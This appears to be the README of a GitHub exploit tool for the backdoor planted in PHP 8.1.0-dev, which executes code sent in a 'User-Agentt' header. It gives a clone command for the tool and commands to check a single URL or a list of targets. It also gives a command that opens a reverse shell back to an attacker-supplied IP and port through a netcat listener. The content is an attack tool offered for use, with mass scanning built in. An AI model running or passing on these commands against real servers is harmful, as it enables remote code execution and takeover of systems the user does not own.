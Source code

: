 # PHP 8.1.0-dev backdoor

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

## How to install

You can install the exploit with git clone:

```
git clone https://github.com/0xGabe/php-8.1.0-backdoor
```

## How to use

### Check the vuln

The php-exploit at moment has two options, a single URL and a target list, see the commands below for both:

- Single URL

```
python3 php-exploit.py --url https://site.com
```

- Target List

```
python3 php-exploit.py --list target.txt
```

### Get a Reverse Shell

To get a reverse shell you need open another terminal with NC.

```
python3 php-exploit.py --url https://site.com --lhost YOUR-IP --lport YOUR-PORT
```

![](img-poc.png)
